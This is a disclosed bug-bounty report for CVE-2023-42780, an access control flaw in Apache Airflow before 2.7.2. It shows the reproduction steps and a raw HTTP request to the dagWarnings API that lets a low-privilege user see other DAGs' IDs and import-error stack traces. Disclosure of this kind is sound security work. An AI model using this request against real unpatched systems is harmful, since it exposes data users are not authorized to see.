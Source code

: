 # CVE-2023-42780: Apache Airflow: Improper access control vulnerability in the "List dag warnings" feature

## Report Details
- **Report ID**: 2208647
- **URL**: https://hackerone.com/reports/2208647
- **State**: Closed
- **Severity**: low
- **Submitted**: 2023-10-13T16:40:00.001Z
- **Disclosed**: 2023-11-29T20:12:41.794Z

## Reporter
- **Username**: balis0ng
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: ibb

## Vulnerability Information
Apache Airflow, versions prior to 2.7.2, contains a security vulnerability that allows authenticated users of Airflow to list warnings for all DAGs, even if the user had no permission to see those DAGs. It would reveal the dag_ids and the stack-traces of import errors for those DAGs with import errors.

# Steps to reproduce :
1. Here I create a role with very little permission. It only has read permissions for the DAG "example_setup_teardown_taskflow" and read warning permissions.
2. Assign the role to an account and log in.
3. Use burpsuite to send the following message, and you can see the warnings of other DAGs. (replaced with the session of the account)
```
GET /api/v1/dagWarnings HTTP/1.1
Host: testvul.com:8080
Accept: application/json
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/115.0.0.0 Safari/537.36
content-type: application/json
Referer: http://testvul.com:8080/dags/example_external_task_marker_parent/grid
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Cookie: session=6ba0ebcd-94b6-41e9-8143-2ada52d554b1.IGPZy1m5c8235p5r8qo4GhPl_YM
Connection: close
Content-Length: 0


```
{F2771429}

**Security Advisory**: https://lists.apache.org/thread/h5tvsvov8j55wojt5sojdprs05oby34d
**Severity**: Low
**Credit**: balis0ng

## Impact

It allows authenticated users of Airflow to list warnings for all DAGs, even if the user had no permission to see those DAGs. It would reveal the dag_ids and the stack-traces of import errors for those DAGs with import errors.

## Attachments
- 4.png
